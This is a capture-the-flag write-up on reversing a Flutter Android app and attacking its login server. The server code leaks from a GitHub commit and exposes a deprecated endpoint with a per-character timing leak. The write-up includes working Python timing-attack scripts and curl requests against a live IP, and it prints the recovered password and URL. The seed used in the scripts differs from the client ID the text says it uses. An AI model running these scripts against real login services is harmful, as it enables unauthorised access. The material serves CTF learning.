

# Challenge #1
Solved together with YaakovCohen88

## Description
> Welcome Agent.
> 
> A team of field operatives is currently on-site in enemy territory, working to retrieve intel on an imminent terrorist attack.
> 
> The intel is contained in a safe, the plans for which are available to authorized > clients via an app.
> 
> Our client ID is f6e772ba649047c8b5d653914bd5d6d7
> 
> Your mission is to retrieve those plans, and allow our team to break into the safe.
> 
> Good luck!,
>   M.|

An APK file was attached.

## Solution

We start by extracting the APK file using `apktool`:
```console
root@kali:/media/sf_CTFs/mossad/1# apktool d app.apk
I: Using Apktool 2.3.4-dirty on app.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /root/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
```

The first thing to look at is the manifest:
```xml
<?xml version="1.0" encoding="utf-8" standalone="no"?><manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.iwalk.locksmither" platformBuildVersionCode="1" platformBuildVersionName="1.0.0">
    <uses-permission android:name="android.permission.INTERNET"/>
    <application android:data="look for us on github.com" android:debuggable="true" android:icon="@mipmap/ic_launcher" android:label="LockSmither" android:name="io.flutter.app.FlutterApplication">
        <activity android:configChanges="density|fontScale|keyboard|keyboardHidden|layoutDirection|locale|orientation|screenLayout|screenSize" android:hardwareAccelerated="true" android:launchMode="singleTop" android:name="com.iwalk.locksmither.MainActivity" android:theme="@style/LaunchTheme" android:windowSoftInputMode="adjustResize">
            <meta-data android:name="io.flutter.app.android.SplashScreenUntilFirstFrame" android:value="true"/>
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
    </application>
</manifest>
```

Looks like a [Flutter](https://flutter.dev/) application:
> Flutter is an open-source mobile application development framework created by Google. It is used to develop applications for Android and iOS (Wikipedia)

Looking around, most of the files seem either framework-related or bare-bones.

The application name seems to be "locksmither", let's search for all instances of it in order to be able to a closer look at the application specific code:

```console
root@kali:/media/sf_CTFs/mossad/1/app# grep -rnw locksmither
AndroidManifest.xml:1:<?xml version="1.0" encoding="utf-8" standalone="no"?><manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.iwalk.locksmither" platformBuildVersionCode="1" platformBuildVersionName="1.0.0">
AndroidManifest.xml:4:        <activity android:configChanges="density|fontScale|keyboard|keyboardHidden|layoutDirection|locale|orientation|screenLayout|screenSize" android:hardwareAccelerated="true" android:launchMode="singleTop" android:name="com.iwalk.locksmither.MainActivity" android:theme="@style/LaunchTheme" android:windowSoftInputMode="adjustResize">
Binary file assets/flutter_assets/kernel_blob.bin matches
smali/com/iwalk/locksmither/BuildConfig.smali:1:.class public final Lcom/iwalk/locksmither/BuildConfig;
smali/com/iwalk/locksmither/BuildConfig.smali:7:.field public static final APPLICATION_ID:Ljava/lang/String; = "com.iwalk.locksmither"
smali/com/iwalk/locksmither/BuildConfig.smali:31:    sput-boolean v0, Lcom/iwalk/locksmither/BuildConfig;->DEBUG:Z
smali/com/iwalk/locksmither/MainActivity.smali:1:.class public Lcom/iwalk/locksmither/MainActivity;
smali/com/iwalk/locksmither/R$drawable.smali:1:.class public final Lcom/iwalk/locksmither/R$drawable;
smali/com/iwalk/locksmither/R$drawable.smali:8:    value = Lcom/iwalk/locksmither/R;
smali/com/iwalk/locksmither/R$mipmap.smali:1:.class public final Lcom/iwalk/locksmither/R$mipmap;
smali/com/iwalk/locksmither/R$mipmap.smali:8:    value = Lcom/iwalk/locksmither/R;
smali/com/iwalk/locksmither/R$style.smali:1:.class public final Lcom/iwalk/locksmither/R$style;
smali/com/iwalk/locksmither/R$style.smali:8:    value = Lcom/iwalk/locksmither/R;
smali/com/iwalk/locksmither/R.smali:1:.class public final Lcom/iwalk/locksmither/R;
smali/com/iwalk/locksmither/R.smali:9:        Lcom/iwalk/locksmither/R$style;,
smali/com/iwalk/locksmither/R.smali:10:        Lcom/iwalk/locksmither/R$mipmap;,
smali/com/iwalk/locksmither/R.smali:11:        Lcom/iwalk/locksmither/R$drawable;
```

The following line stands out:
```
Binary file assets/flutter_assets/kernel_blob.bin matches
```

Why is the application name found in a binary file?

```console
root@kali:/media/sf_CTFs/mossad/1/app# strings assets/flutter_assets/kernel_blob.bin | grep locksmither
Cfile:///C:/Users/USER/Desktop/2019/client/locksmither/lib/main.dart
import 'package:locksmither/routes.dart';
Mfile:///C:/Users/USER/Desktop/2019/client/locksmither/lib/models/AuthURL.dart
Kfile:///C:/Users/USER/Desktop/2019/client/locksmither/lib/models/token.dart
Qfile:///C:/Users/USER/Desktop/2019/client/locksmither/lib/network/cookie_jar.dart
Iimport 'package:locksmither/models/token.dart';
Vfile:///C:/Users/USER/Desktop/2019/client/locksmither/lib/network/network_actions.dart
import 'package:locksmither/network/network_wrapper.dart';
import 'package:locksmither/models/token.dart';
import 'package:locksmither/models/AuthURL.dart';
Vfile:///C:/Users/USER/Desktop/2019/client/locksmither/lib/network/network_wrapper.dart
Nfile:///C:/Users/USER/Desktop/2019/client/locksmither/lib/pages/home_page.dart
import 'package:locksmither/network/cookie_jar.dart';
import 'package:locksmither/models/token.dart';
Ofile:///C:/Users/USER/Desktop/2019/client/locksmither/lib/pages/login_page.dart
import 'package:locksmither/network/network_actions.dart';
import 'package:locksmither/network/cookie_jar.dart';
import 'package:locksmither/models/token.dart';
Efile:///C:/Users/USER/Desktop/2019/client/locksmither/lib/routes.dart
import 'package:locksmither/pages/login_page.dart';
import 'package:locksmither/pages/home_page.dart';
```

This looks like paths and code, it's worth taking a closer look.

```console
root@kali:/media/sf_CTFs/mossad/1/app# xxd -u assets/flutter_assets/kernel_blob.bin | grep main.dart -B 10 -A 10
004fffa0: C000 87E0 C000 87D6 C000 87EA C000 87CB  ................
004fffb0: C000 8841 C000 884A C000 884B C000 887D  ...A...J...K...}
004fffc0: C000 8861 C000 8889 C000 889A C000 889C  ...a............
004fffd0: C000 8A48 C000 8A1C C000 899F C000 8AB2  ...H............
004fffe0: 8A5F 8A63 8A64 8A65 8A66 8A69 8FF3 0000  ._.c.d.e.f.i....
004ffff0: 0000 0000 4FFF F100 0000 0000 4FFF F300  ....O.......O...
00500000: 0000 0000 0002 2C00 0000 4366 696C 653A  ......,...Cfile:
00500010: 2F2F 2F43 3A2F 5573 6572 732F 5553 4552  ///C:/Users/USER
00500020: 2F44 6573 6B74 6F70 2F32 3031 392F 636C  /Desktop/2019/cl
00500030: 6965 6E74 2F6C 6F63 6B73 6D69 7468 6572  ient/locksmither
00500040: 2F6C 6962 2F6D 6169 6E2E 6461 7274 81DE  /lib/main.dart..
00500050: 696D 706F 7274 2027 7061 636B 6167 653A  import 'package:
00500060: 666C 7574 7465 722F 6D61 7465 7269 616C  flutter/material
00500070: 2E64 6172 7427 3B0D 0A69 6D70 6F72 7420  .dart';..import
00500080: 2770 6163 6B61 6765 3A6C 6F63 6B73 6D69  'package:locksmi
00500090: 7468 6572 2F72 6F75 7465 732E 6461 7274  ther/routes.dart
005000a0: 273B 0D0A 0D0A 766F 6964 206D 6169 6E28  ';....void main(
005000b0: 2920 3D3E 2072 756E 4170 7028 4C6F 636B  ) => runApp(Lock
005000c0: 536D 6974 6865 7241 7070 2829 293B 0D0A  SmitherApp());..
005000d0: 0D0A 636C 6173 7320 4C6F 636B 536D 6974  ..class LockSmit
005000e0: 6865 7241 7070 2065 7874 656E 6473 2053  herApp extends S
```

This is actual code!

We search `kernel_blob.bin` for all locations of the user application (i.e. paths that start with "`file:///C:/Users/USER/Desktop/2019/client/locksmither/`") and extract the following files:

```console
root@kali:/media/sf_CTFs/mossad/1/app# ls -l ../*.dart
-rwxrwx--- 1 root vboxsf  287 May  9 10:50 ../AuthURL.dart
-rwxrwx--- 1 root vboxsf  329 May  9 10:50 ../cookie_jar.dart
-rwxrwx--- 1 root vboxsf  839 May  9 10:52 ../home_page.dart
-rwxrwx--- 1 root vboxsf 3569 May  9 10:52 ../login_page.dart
-rwxrwx--- 1 root vboxsf  478 May  9 10:49 ../main.dart
-rwxrwx--- 1 root vboxsf 1279 May  9 10:51 ../network_actions.dart
-rwxrwx--- 1 root vboxsf 1993 May  9 10:51 ../network_wrapper.dart
-rwxrwx--- 1 root vboxsf  355 May  9 10:53 ../routes.dart
-rwxrwx--- 1 root vboxsf  574 May  9 10:50 ../token.dart
```

The files are attached under the `Challenge1_files` folder.

From `login_page.dart` we can learn that the application UI offers two fields: A seed and a password:

```dart
        new Form(
          key: formKey,
          child: new Column(
            children: <Widget>[
              new Padding(
                padding: const EdgeInsets.all(8.0),
                child: new TextFormField(
                  onSaved: (val) => _seed = val,
                  decoration: new InputDecoration(labelText: "Seed"),
                ),
              ),
              new Padding(
                padding: const EdgeInsets.all(8.0),
                child: new TextFormField(
                  onSaved: (val) => _password = val,
                  decoration: new InputDecoration(labelText: "Password"),
                ),
              ),
            ],
          ),
        ),
```

The login logic is located in `network_actions.dart`:

```dart
class NetworkActions {
  NetworkWrapper _netUtil = new NetworkWrapper();
  static const BASE_URL = "http://35.246.158.51:8070";
  static const LOGIN_URL = BASE_URL + "/auth/getUrl";

  Future<Token> login(String seed, String password) {
    var headers = new Map<String,String>();
      return _netUtil.get(LOGIN_URL, headers:headers).then((dynamic authUrl) {
      try {
        if (authUrl == null) {
          return Future<Token>.sync(() => new Token("", false, 0));
        }
        var loginUrl = BASE_URL + AuthURL.map(json.decode(authUrl.body)).url;
        Map<String,String> body = { "Seed": seed, "Password": password };
        Map<String,String> headers = {"content-type": "application/json"};
        return _netUtil.post(loginUrl,body: json.encode(body), headers:headers).then((dynamic token) {                
                return Token.map(token);
              });
      } catch (e) {
        return Future<Token>.sync(() => new Token("", false, 0));
      }
      }).catchError((e) { 
        return null; 
      });
  }
}
```

First, the authentication URL is received by making a request to `/auth/getUrl`.
Then, the seed and password are verified against the login service.

Successfully logging in will take us to the home page, revealing a lock URL:
```dart
String get lockURL => _token.lockURL;
  int get time => _token.time;


  @override
  Widget build(BuildContext context) {
    return new Scaffold(
      appBar: new AppBar(title: new Text("Home"),),
      body: new Center(
        
        child: new Text("Success!\nLock Url: $lockURL\nObtained in: $time nanoseconds"
                ),
              ),
        );
  }
```

The obvious next move is to investigate the API:

```console
root@kali:/media/sf_CTFs/mossad/1# curl http://35.246.158.51:8070/auth/getUrl
{"AuthURL":"/auth/v2"}
```

Let's try to authenticate with random credentials (we add the user agent since that's what the application uses, as seen in `network_wrapper.dart`):
```console
root@kali:/media/sf_CTFs/mossad/1# curl -X POST  http://35.246.158.51:8070/auth/v2 -H "Content-Type: application/json" -d '{"Seed":"12345", "Password":"pass"}' -H "User-Agent: iWalk-v2"
 && echo
{"IsValid":false,"LockURL":"","Time":129238}
```

Obviously we get `IsValid = False`, but the detail that stands out here it the `Time` member. 

We try the same request again and get a different time:
```console
root@kali:/media/sf_CTFs/mossad/1# curl -X POST  http://35.246.158.51:8070/auth/v2 -H "Content-Type: application/json" -d '{"Seed":"12345", "Password":"pass"}' -H "User-Agent: iWalk-v2" && echo
{"IsValid":false,"LockURL":"","Time":102929}
```

The result this time is smaller, meaning that this isn't a running clock. And in fact, we can see from the success message above that this is the amount of time, in nanoseconds, that it took the server to respond.

This is very good news since it might allow us to perform a [Timing Attack](https://en.wikipedia.org/wiki/Timing_attack):

> In cryptography, a timing attack is a side channel attack in which the attacker attempts to compromise a cryptosystem by analyzing the time taken to execute cryptographic algorithms. Every logical operation in a computer takes time to execute, and the time can differ based on the input; with precise measurements of the time for each operation, an attacker can work backwards to the input.

The high-level concept is as follows:

1. For each legal character that a password can contain:
   1. Send a request with the current character as the first character of the password and some other random string for the rest of the password
   2. Measure the time it takes for the server to respond
   3. If the server is vulnerable to a timing attack (by comparing the user password to the real password character by character), the time it takes for the server to respond when we send the correct first character will be a bit longer. This is because in this case, the server performs two comparisons (one for the first letter which is successful, and then for the second letter which is probably wrong), while in the common case the server will find out that the password is wrong during the first comparison
   4. After revealing the first letter of the password, repeat the procedure for the rest of the password

We can use the following script as a proof of concept:

```python
import requests
import string
import json

def send_request(payload):
    headers = {'User-Agent': 'ed9ae2c0-9b15-4556-a393-23d500675d4b'}
    r = requests.post("http://35.246.158.51:8070/auth/v2", json={"Seed":"12345", "Password": payload}, headers = headers)
    j = json.loads(r.text)
    return j
    
l = []
for c in string.printable:
    r = send_request(c + "#")
    l.append((r["Time"], c))
print(sorted(l, reverse = True))
```

The result:

```console
root@kali:/media/sf_CTFs/mossad/1# python timing.py
[(163682, 'P'), (156899, '"'), (146783, 'C'), (145022, "'"), (143158, '1'), (139654, 'j'), (139454, 'L'), (135785, '8'), (134824, '9'), (132512, '!'), (131702, '='), (131552, '$'), (131263, '0'), (131155, '@'), (130981, 'N'), (129179, 'b'), (128047, 'E'), (128036, 'G'), (127787, 'h'), (127631, '\x0b'), (127044, 'A'), (126666, 'q'), (126146, 'n'), (125356, ','), (125075, ' '), (124757, 'X'), (124608, 'F'), (124069, 'w'), (124025, 'Y'), (123364, 'm'), (122906, 'g'), (122613, 'u'), (122606, '\t'), (121776, '~'), (121402, '\x0c'), (121275, '.'), (120777, '^'), (120572, '5'), (120426, 'D'), (120388, 'l'), (120097, 'H'), (120018, '?'), (119420, 'J'), (119327, 'r'), (119326, '4'), (119259, 'V'), (119190, 'y'), (118724, 'I'), (118169, '&'), (118157, 'T'), (118114, 'O'), (117913, '`'), (117629, '+'), (117480, 's'), (117362, 'Q'), (116088, '\\'), (116053, '\n'), (115872, 'B'), (115745, '/'), (115344, 'R'), (115142, '7'), (114646, '6'), (114521, 'a'), (114003, 'K'), (113926, 'f'), (113572, '\r'), (113293, 'v'), (113253, 't'), (113185, 'p'), (113152, ')'), (112912, '('), (112414, '|'), (111918, '['), (111859, 'k'), (111699, ':'), (111509, ']'), (111354, 'M'), (111118, '#'), (110780, 'c'), (110737, 'z'), (110175, 'S'), (109707, '3'), (109606, 'e'), (109528, '{'), (109424, '}'), (109305, 'U'), (108920, '-'), (108639, 'Z'), (108453, '_'), (108418, '2'), (108109, '*'), (108038, 'o'), (107736, 'd'), (107513, '<'), (107136, '>'), (106291, '%'), (105649, 'W'), (104954, ';'), (103039, 'i'), (78280, 'x')]
```

According to these results, "P" is probably the first letter of the password.

In order to double check, we run again:

```console
root@kali:/media/sf_CTFs/mossad/1# python 1.py
[(162929, 'q'), (159551, 'S'), (152178, '\t'), (148898, '['), (147134, '%'), (144974, 'm'), (144912, 'F'), (143515, 'E'), (142428, 't'), (135889, '/'), (135324, 'G'), (132307, 'b'), (130708, '@'), (129942, 'a'), (128031, '>'), (127303, 'W'), (127025, '?'), (126839, 'C'), (126811, '\\'), (126428, '\x0b'), (126067, 'V'), (125985, 'l'), (125777, '^'), (124175, 'D'), (124024, ']'), (123713, 'k'), (123555, '6'), (122888, 'o'), (122160, 'y'), (122144, 'w'), (122098, 'g'), (121428, '2'), (120693, 'Z'), (120687, '$'), (120657, 'v'), (120651, '\r'), (119935, 'z'), (119293, '\n'), (118910, '+'), (118698, '*'), (118381, ')'), (118298, '8'), (117939, '='), (117692, 'N'), (117053, ','), (116495, '&'), (116462, '4'), (116365, 'R'), (116194, '('), (116189, '9'), (115807, 'Q'), (115520, 'H'), (115339, 'B'), (115256, '{'), (114959, '<'), (114855, 'P'), (114757, '|'), (114453, 'e'), (114298, ':'), (114273, '#'), (114107, 'r'), (113600, '.'), (113431, 'K'), (113371, 'A'), (113337, 'Y'), (113289, '}'), (112673, "'"), (112593, 'M'), (112572, 'p'), (112448, 'j'), (112426, '"'), (112342, 'X'), (112101, 'L'), (111912, '-'), (111818, '\x0c'), (111721, '0'), (111695, 'f'), (111695, ';'), (111470, 'h'), (111458, '5'), (111301, 'T'), (111074, 'I'), (110847, 's'), (110547, 'n'), (110543, 'x'), (110320, 'u'), (110306, '`'), (109994, '1'), (109928, 'O'), (109895, '3'), (109740, '!'), (108844, 'c'), (108607, '7'), (106737, 'J'), (106614, '~'), (106584, 'U'), (106269, '_'), (105884, ' '), (97347, 'd'), (94793, 'i')]
```

This time we get completely different results, and "P" is not even close to the top. We can repeat the experiment several times and each time we get very different results. The conclusion must be that this service is not vulnerable to a timing attack.

It's back to the drawing board, however there's not too much to work with anymore.

After thoroughly reviewing everything several times, we go back to the manifest and concentrate on the following line:

```xml
<application android:data="look for us on github.com" android:debuggable="true" android:icon="@mipmap/ic_launcher" android:label="LockSmither" android:name="io.flutter.app.FlutterApplication">
```

The `android:data` attribute is easy to look over at first, but upon closer examination it's a bit suspicious that the sentence doesn't start with a capital letter like we would expect if this was copied from some official source. What is this is a hint?

Github has many results for [iwalk](https://github.com/search?q=iwalk) and [LockSmither](https://github.com/search?q=LockSmither), but only one result for the combination [iWalk-LockSmither](https://github.com/search?q=iWalk-LockSmither&type=Users)!

In the single commit by this user, the following code was checked in:

```go
package main

import (
	"encoding/json"
	"fmt"
	"log"
	"net/http"
	"time"
)

type AuthURL struct {
	AuthURL string
}

type LoginData struct {
	Seed     string
	Password string
}

type AuthResponse struct {
	IsValid bool
	LockURL string
	Time    time.Duration
}

func notFound(w http.ResponseWriter, r *http.Request) {
	fmt.Fprintf(w, "Page not found")
}

func getAuthURL(w http.ResponseWriter, r *http.Request) {
	userAgent := r.Header.Get("User-Agent")
	url := "/auth/v2"

	if userAgent == "ed9ae2c0-9b15-4556-a393-23d500675d4b" {
		url = "/auth/v1_1"
	}

	resp := AuthURL{AuthURL: url}
	w.Header().Set("Server", "iWalk-Server-v2")
	w.Header().Set("Content-Type", "application/json")
	json.NewEncoder(w).Encode(resp)
}

//iWalk-Locks: Production auth
func v2Auth(w http.ResponseWriter, r *http.Request) {
	start := time.Now()

	decoder := json.NewDecoder(r.Body)
	var loginData LoginData
	err := decoder.Decode(&loginData)
	if err != nil {
		ret := getResponseToken(start, false, "")
		returnToken(w, ret)
		return
	}

	//LockSmiter: better Auth checks for our app
	for _, lock := range getLocks() {
		if lock.Password == loginData.Password && lock.Seed == loginData.Seed {
			ret := getResponseToken(start, true, lock.Value)
			returnToken(w, ret)
			return
		}
	}

	ret := getResponseToken(start, false, "")
	returnToken(w, ret)
}

//iWalk-Locks: old auth, depcrated developed by OG
//that is no longer with us
//TODO: deprecated, remove from code
func v1Auth(w http.ResponseWriter, r *http.Request) {
	userAgent := r.Header.Get("User-Agent")
	if userAgent != "ed9ae2c0-9b15-4556-a393-23d500675d4b" {
		returnServerError(w, r)
		return
	}

	start := time.Now()

	decoder := json.NewDecoder(r.Body)
	var loginData LoginData
	err := decoder.Decode(&loginData)
	if err != nil {
		ret := getResponseToken(start, false, "")
		returnToken(w, ret)
		return
	}

	for _, lock := range getLocks() {
		if loginData.Seed != lock.Seed {
			continue
		}

		currentIndex := 0
		for currentIndex < len(lock.Password) && currentIndex < len(loginData.Password) {
			if lock.Password[currentIndex] != loginData.Password[currentIndex] {
				break
			}
			//OG: securing against bruteforce attempts... ;-)
			time.Sleep(30 * time.Millisecond)
			currentIndex++
		}

		if currentIndex == len(lock.Password) {
			ret := getResponseToken(start, true, lock.Value)
			returnToken(w, ret)
			return
		}
	}

	ret := getResponseToken(start, false, "")
	returnToken(w, ret)
}

func getResponseToken(from time.Time, isValid bool, lockURL string) []byte {
	elapsed := time.Since(from)
	resp := AuthResponse{IsValid: isValid, LockURL: lockURL, Time: elapsed}
	js, err := json.Marshal(resp)
	if err != nil {
		return nil
	}

	return js
}

func returnToken(w http.ResponseWriter, js []byte) {
	if js == nil {
		http.Error(w, "", http.StatusInternalServerError)
		return
	}

	w.Header().Set("Server", "iWalk-Server-v2")
	w.Header().Set("Content-Type", "application/json")
	w.Write(js)
}

func returnServerError(w http.ResponseWriter, r *http.Request) {
	w.Header().Set("Server", "iWalk-Server-v2")
	http.Error(w, "Oh no. We might have a problem; trained monkies are on it.", http.StatusInternalServerError)
}

func main() {
	if getLocks() == nil {
		panic("Something is wrong with the locks file")
	}

	http.HandleFunc("/auth/getUrl", getAuthURL)
	http.HandleFunc("/auth/v1_1", v1Auth)
	http.HandleFunc("/auth/v2", v2Auth)
	http.HandleFunc("/", notFound)
	log.Fatal(http.ListenAndServe(":8070", nil))
}
```

This is the missing piece we needed!

We can see that there is a deprecated API (`v1Auth`) which is available only using a certain user agent:

```console
root@kali:/media/sf_CTFs/mossad/1# curl http://35.246.158.51:8070/auth/getUrl
{"AuthURL":"/auth/v2"}
root@kali:/media/sf_CTFs/mossad/1# curl http://35.246.158.51:8070/auth/getUrl -H "User-Agent: ed9ae2c0-9b15-4556-a393-23d500675d4b"
{"AuthURL":"/auth/v1_1"}
```

Luckily, this API is vulnerable to a timing attack:

```go
for currentIndex < len(lock.Password) && currentIndex < len(loginData.Password) {
    if lock.Password[currentIndex] != loginData.Password[currentIndex] {
        break
    }
    //OG: securing against bruteforce attempts... ;-)
    time.Sleep(30 * time.Millisecond)
    currentIndex++
}
```

When we send a correct character, the server will wait 30 milliseconds before continuing to the next character, making it easy to isolate the correct character.

The only thing we have to bypass now is the following check:

```go
if loginData.Seed != lock.Seed {
	continue
}
```

If we don't know the correct seed, we won't be able to get to the character comparison. We can't brute force the seed since we have any information leaking at this stage, i.e. we can't distinguish a good seed from a bad one.

Since there doesn't seem any other way around this, our only reasonable strategy is to use the only piece of information we haven't used yet - the client ID from the description.

Let's try it:

```python
import requests
import string
import json

def send_request(payload):
    headers = {'User-Agent': 'ed9ae2c0-9b15-4556-a393-23d500675d4b'}
    r = requests.post("http://35.246.158.51:8070/auth/v1_1", json={"Seed":"b27098b891ae4eb29b3d57b8f0b1279d", "Password": payload}, headers = headers)
    j = json.loads(r.text)
    return j
    
l = []
for c in string.printable:
    r = send_request(c + "#")
    l.append((r["Time"], c))
print(sorted(l, reverse = True))
```

Output:

```console
root@kali:/media/sf_CTFs/mossad/1# python timing.py
[(30297821, '8'), (299177, '^'), (225591, 'g'), (220877, 'J'), (214820, '9'), (199345, 'o'), (195457, '"'), (195241, '\n'), (194002, ','), (193293, '\r'), (190532, '\t'), (188643, 's'), (188146, 'V'), (186111, 'T'), (185161, 'N'), (185028, 'Y'), (183405, 'X'), (183234, 'l'), (182483, '6'), (182456, 'b'), (182241, '<'), (181334, '!'), (178178, 'G'), (178124, 'x'), (177788, 'e'), (177576, '$'), (176918, 'C'), (176083, 'j'), (174459, ')'), (174277, 'S'), (173024, 'E'), (172562, 'O'), (172215, 'k'), (172177, 'r'), (171948, ':'), (171693, 'W'), (171325, 'P'), (169705, 'q'), (169170, '4'), (169059, '\x0c'), (168927, '7'), (168658, '}'), (168632, '|'), (168210, 'z'), (168172, ' '), (168043, '>'), (166839, '&'), (166585, '5'), (166238, 'u'), (165316, '2'), (165023, 'A'), (164470, 'B'), (164381, 'D'), (164035, '*'), (163765, '\x0b'), (163733, '#'), (163578, 'i'), (163529, '?'), (163259, 'm'), (162995, 'U'), (162713, "'"), (162601, '`'), (162267, 'y'), (161912, 'K'), (161689, '1'), (161392, 'c'), (161292, 'w'), (161221, '{'), (160424, 'h'), (159986, 'I'), (159927, '('), (159717, '+'), (159480, '0'), (159385, ']'), (158972, 'H'), (158693, '~'), (158634, '3'), (158297, 'n'), (158277, '='), (158116, 'p'), (158082, 'M'), (158059, 'F'), (158044, 'Q'), (157507, 'Z'), (157177, '%'), (157097, '/'), (156999, '['), (156588, '_'), (156581, 'd'), (156274, 'f'), (156232, 'a'), (155671, 't'), (155460, 'R'), (154342, '-'), (154146, '\\'), (153440, '@'), (151308, 'v'), (150976, 'L'), (149162, ';'), (148828, '.')]
root@kali:/media/sf_CTFs/mossad/1# python timing.py
[(30255514, '8'), (255535, 'l'), (208315, 'v'), (205267, 'f'), (200087, '^'), (197082, 'q'), (195745, 'r'), (194660, 's'), (186805, 'B'), (185840, '3'), (181089, '4'), (180780, '?'), (180144, 'O'), (178863, 'a'), (177931, 'p'), (177763, '_'), (177756, 'J'), (176735, "'"), (176232, '!'), (175732, 'I'), (175128, 'R'), (174867, '@'), (174858, '9'), (174730, 'A'), (174675, '"'), (173457, 'j'), (173435, '#'), (172652, 'L'), (172419, ':'), (172269, 'o'), (171940, 'g'), (171812, '+'), (171080, '-'), (170780, 'S'), (170205, 'k'), (169251, '&'), (169217, 'M'), (168910, 'Z'), (167135, '<'), (167123, '\x0c'), (167101, 'P'), (167100, '1'), (166640, 'm'), (166395, '\x0b'), (166386, '%'), (165335, ','), (164965, 'x'), (164965, 'c'), (164864, 'C'), (164136, '\t'), (163903, '5'), (163892, 'y'), (163660, '*'), (163508, '.'), (163465, '`'), (163437, 'G'), (163328, 'Q'), (162983, 'F'), (162730, 'X'), (162463, 'b'), (162249, '2'), (161992, '>'), (161910, 'w'), (161624, 'u'), (161342, '/'), (161326, 'T'), (161166, '0'), (160766, '('), (160611, 'V'), (159719, 'H'), (159149, ' '), (158566, 'U'), (158408, '['), (158281, 'z'), (158154, '$'), (157983, '~'), (157642, 'K'), (157615, 'd'), (157545, '6'), (157347, '7'), (157185, '|'), (157041, '\r'), (156871, 'D'), (156260, '{'), (156160, ')'), (156053, 'e'), (155840, '\\'), (155520, 'h'), (155516, '='), (155361, 'Y'), (155184, 'E'), (155151, 'i'), (154420, 'W'), (154251, '}'), (153745, ']'), (149470, '\n'), (148354, 'n'), (147696, ';'), (147150, 'N'), (145426, 't')]
```

We got a consistent "8" twice in a row, with a large delta from the next runner-up. This means that we're on the right track.

The following script will extract the complete password:
```python
import requests
import string
import json
import sys

def send_request(payload):
    headers = {'User-Agent': 'ed9ae2c0-9b15-4556-a393-23d500675d4b'}
    r = requests.post("http://35.246.158.51:8070/auth/v1_1", json={"Seed":"b27098b891ae4eb29b3d57b8f0b1279d", "Password": payload}, headers = headers)
    j = json.loads(r.text)
    return j


def timing_attack():
    password = ""
    sys.stdout.write("Progress: ")
    sys.stdout.flush()
    while True:
        l = []
        for c in '1234567890abcdef':
            r = send_request(password + c + "#")
            if r["IsValid"]:
                return (r, password + c)
            l.append((r["Time"], c))
        s = sorted(l, reverse = True)
        new_char = s[0][1]
        sys.stdout.write(new_char)
        sys.stdout.flush()
        password += new_char
    return None

if __name__ == "__main__":
    (response, password) = timing_attack()
    print ("\nPassword: {}".format(password))
    print ("URL: {}".format(response["LockURL"]))
```

Note that we're only trying lowercase HEX characters, since from the first few results it seems as though the password is lowercase HEX. This allowed running much faster. If this assumption would have been found to be incorrect, we would have tried iterating over `string.printable`.

The output:
```console
root@kali:/media/sf_CTFs/mossad/1# python timing.py
Progress: 81c4727e019d42e49fe9bcca9b2b0c8
Password: 81c4727e019d42e49fe9bcca9b2b0c8c
URL: http://3d375032374147a7865753e4bbc92682.xyz/c76de3be5d23447e95d498aeff4ca5fc
```

